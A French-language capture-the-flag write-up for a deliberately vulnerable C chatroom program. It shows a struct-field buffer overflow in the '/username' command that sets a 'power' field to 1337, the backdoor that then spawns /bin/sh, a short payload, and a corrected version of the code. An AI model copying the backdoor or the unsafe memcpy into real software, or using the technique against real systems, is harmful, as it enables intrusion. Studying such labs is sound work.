

# Write-up: Chatroom Buffer Overflow Challenge

Application de chatroom en C vulnérable à un **buffer overflow**. L'objectif est d'exploiter cette vulnérabilité pour obtenir un shell en modifiant la valeur d'un champ critique de la structure de données.

## Structures de données

```c
typedef struct {
    char username[10];  // 10 bytes
    char ipv4[4];       // 4 bytes
    ushort power;       // 2 bytes
} user;
```

La structure `user` contient :
- `username` : 10 octets
- `ipv4` : 4 octets  
- `power` : 2 octets (unsigned short)

## La vulnérabilité

Le code vulnérable se trouve dans la commande `/username` :

```c
if (prefix("/username ", line)) {
    char* username = &line[10];
    if (strlen(username) > MAX_USERNAME) {
        printf("username too long !\n");
    } else {
        // Vuln
        memcpy(room.me.username, username, MAX_USERNAME);
        display_room(&room);
    }
}
```

**Problème** : La vérification `strlen(username) > MAX_USERNAME` (16) est insuffisante car `memcpy()` copie **exactement** `MAX_USERNAME` (16) octets, même si la chaîne est plus courte. Cependant, le buffer `username` ne fait que **10 octets**.

En copiant 16 octets dans un buffer de 10 octets, on déborde sur les champs suivants de la structure :
- Les 10 premiers octets écrasent `username`
- Les 4 octets suivants écrasent `ipv4`
- Les 2 derniers octets écrasent `power`

### Le backdoor

```c
else if (prefix("/b4ckd00r", line) && room.me.power == 1337) {
    system("/bin/sh");
}
```

La commande `/b4ckd00r` lance un shell **si et seulement si** `room.me.power == 1337`.

## Exploitation

1. Utiliser le buffer overflow dans `/username` pour écraser le champ `power`
2. Mettre `power` à la valeur `1337`
3. Appeler `/b4ckd00r` pour obtenir le shell

### Payload

```python
payload = b'A' * 10          # Remplir username (10 bytes)
payload += b'B' * 4          # Écraser ipv4 (4 bytes)
payload += p16(1337)         # Écraser power avec 1337 (2 bytes, little-endian)
```

- `b'A' * 10` : Remplit le champ `username` avec des 'A'
- `b'B' * 4` : Remplit le champ `ipv4` avec des 'B' (valeur sans importance)
- `p16(1337)` : Écrit la valeur 1337 en little-endian (2 octets) dans le champ `power`

### Layout mémoire

```
Offset | Champ      | Taille | Contenu du payload
-------|------------|--------|-------------------
0      | username   | 10     | AAAAAAAAAA
10     | ipv4       | 4      | BBBB
14     | power      | 2      | \x39\x05 (1337 en little-endian)
```

**voir chall-solve.py** pour le script d'exploitation


## Points clés

- **Faille de vérification** : La validation de longueur (`strlen(username) > MAX_USERNAME`) ne correspond pas à la taille réelle du buffer (10 octets)
- **memcpy vs strncpy** : `memcpy()` copie aveuglément N octets sans vérifier les limites réelles
- **Layout mémoire** : Exploitation de la disposition séquentielle des champs dans la structure C
- **Endianness** : Utilisation de `p16()` pour respecter le format little-endian de l'architecture x86/x64
- **Contrôle de flux** : Modification d'une valeur critique pour débloquer une fonctionnalité cachée



Pour corriger cette vulnérabilité :

```c
if (strlen(username) >= sizeof(room.me.username)) {
    printf("username too long !\n");
} else {
    strncpy(room.me.username, username, sizeof(room.me.username) - 1);
    room.me.username[sizeof(room.me.username) - 1] = '\0';
    display_room(&room);
}
```

**Correctifs** :
1. Vérification stricte : `>=` au lieu de `>`
2. Utilisation de `strncpy()` à la place de `memcpy()`
3. Limitation à `sizeof(room.me.username) - 1` pour laisser place au null terminator
4. Ajout explicite du null terminator pour éviter les débordements de chaîne
